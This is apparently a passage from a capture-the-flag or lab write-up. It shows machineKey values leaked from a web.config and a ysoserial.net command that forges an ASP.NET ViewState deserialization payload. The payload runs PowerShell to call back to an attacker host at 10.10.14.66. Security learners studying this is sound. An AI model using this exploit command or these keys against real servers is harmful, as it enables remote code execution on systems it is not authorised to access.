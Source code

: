 ```bash
/web.config

```

![image8](../resources/73fa34bd7e2a4436bc416fbf29c1dbbd.png)

- We have the **machineKey** - Which includes the:
**decryptionKey**="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" **validationKey**="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"

- Here is an exploit if we already have the machineKey:
[https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-\_\_viewstate-parameter#:~:text=ysoserial.exe%20%2Dp%20ViewState%20%20%2Dg,F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2%22%20%20%2D%2Dvalidationalg%3D%22SHA1%22%20%2D%2Dvalidationkey%3D%22C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45%22](https://book.hacktricks.xyz/pentesting-web/deserialization/exploiting-__viewstate-parameter#:~:text=ysoserial.exe%20%2Dp%20ViewState%20%20%2Dg,F6722806843145965513817CEBDECBB1F94808E4A6C0B2F2%22%20%20%2D%2Dvalidationalg%3D%22SHA1%22%20%2D%2Dvalidationkey%3D%22C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45%22)

- To test this:
  - git clone <https://github.com/NHPT/ysoserial.net>
  - Open a Windows VM and transfer the files (or download directly to it)
  - Run the following (after changing the parameters) on the Windows VM:

```powershell
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --path="/portfolio/default.aspx" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" -c "powershell.exe Invoke-WebRequest -Uri http://10.10.14.66:8082/test.txt"

```

![image9](../resources/30b66290cce641c3a2e0580f762fdf3c.png)
